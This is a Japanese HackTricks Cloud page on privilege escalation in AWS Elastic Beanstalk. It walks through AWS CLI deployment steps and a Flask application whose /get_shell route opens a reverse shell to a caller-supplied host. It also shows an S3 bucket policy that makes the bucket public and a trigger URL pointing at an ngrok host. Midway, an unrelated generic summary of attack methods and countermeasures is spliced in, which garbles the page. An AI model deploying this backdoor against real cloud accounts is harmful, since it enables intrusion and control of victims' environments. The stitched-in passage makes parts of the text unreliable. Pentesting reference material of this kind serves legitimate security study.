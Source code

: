 # AWS - Elastic Beanstalk特権エスカレーション

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* HackTricksをサポートし、特典を受け取るには、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご確認ください。企業の広告をHackTricksで見たい場合や、最新バージョンのPEASSやHackTricksをPDFでダウンロードしたい場合は、こちらをご覧ください。
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## Elastic Beanstalk

Elastic Beanstalkに関する詳細情報は次を参照してください：

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### `elasticbeanstalk:CreateApplication`、`elasticbeanstalk:CreateEnvironment`、`elasticbeanstalk:CreateApplicationVersion`、`elasticbeanstalk:UpdateEnvironment`、`iam:PassRole`など...

上記の他にも、**`S3`**、**`EC2`**、**`cloudformation`**、**`autoscaling`**、**`elasticloadbalancing`**の権限が必要です。これらの権限は、Elastic Beanstalkシナリオをゼロから作成するために必要です。

* AWS Elastic Beanstalkアプリケーションを作成します：
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* AWS Elastic Beanstalk環境を作成します（[**サポートされているプラットフォーム**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)）:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

環境が既に作成されており、**新しい環境を作成したくない**場合は、既存の環境を**更新**することもできます。

* アプリケーションコードと依存関係をZIPファイルにパッケージ化します：
```python
zip -r MyApp.zip .
```
* S3バケットにZIPファイルをアップロードします：
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* AWS Elastic Beanstalkアプリケーションバージョンの作成:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
* AWS Elastic Beanstalk環境にアプリケーションバージョンをデプロイします：

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

まず、**前の手順**に従って、**被害者**で実行したい**コード**を含む**正規のBeanstalk環境**を作成する必要があります。おそらく、これらの**2つのファイル**を含む単純な**zip**ファイルです。

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

自分のBeanstalk環境でrev shellを実行している場合、それを被害者の環境に移行する時が来ました。そのためには、BeanstalkのS3バケットのBucket Policyを更新して、被害者がアクセスできるようにする必要があります（注意：これによりバケットは「誰でも」アクセスできるようになります）。
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
以下は、AWS Elastic Beanstalkの特権エスカレーションに関する情報です。

## 概要

AWS Elastic Beanstalkは、アプリケーションのデプロイ、スケーリング、管理を簡素化するためのサービスです。しかし、適切な設定が行われていない場合、特権エスカレーションのリスクが存在します。

## 特権エスカレーションの手法

### 1. 環境変数の悪用

Elastic Beanstalkでは、アプリケーションの環境変数を設定することができます。攻撃者は、これらの環境変数を悪用して特権をエスカレーションさせることができます。

攻撃者は、以下の手順に従って特権エスカレーションを行います。

1. 攻撃者は、アプリケーションの環境変数を調査します。
2. 攻撃者は、特権を持つ環境変数を見つけます。
3. 攻撃者は、特権を持つ環境変数を悪用して、アプリケーション内でコードを実行します。

### 2. IAMロールの悪用

Elastic Beanstalkでは、IAMロールを使用してアプリケーションにアクセス権を付与することができます。攻撃者は、IAMロールの悪用を通じて特権エスカレーションを行うことができます。

攻撃者は、以下の手順に従って特権エスカレーションを行います。

1. 攻撃者は、アプリケーションが使用しているIAMロールを調査します。
2. 攻撃者は、特権を持つIAMロールを見つけます。
3. 攻撃者は、特権を持つIAMロールを悪用して、アプリケーション内でコードを実行します。

## 対策方法

特権エスカレーションを防ぐためには、以下の対策を実施することが重要です。

- 環境変数の適切な設定と管理を行う。
- IAMロールの適切な設定と管理を行う。
- アプリケーションのセキュリティを定期的に監査する。

以上が、AWS Elastic Beanstalkにおける特権エスカレーションの手法と対策方法です。特権エスカレーションのリスクを最小限に抑えるために、適切なセキュリティ対策を実施しましょう。{% endcode %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528
```
{% endcode %}

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* もし、あなたの**会社をハックトリックで宣伝したい**場合や、**最新版のPEASSを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆ハックトリックのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
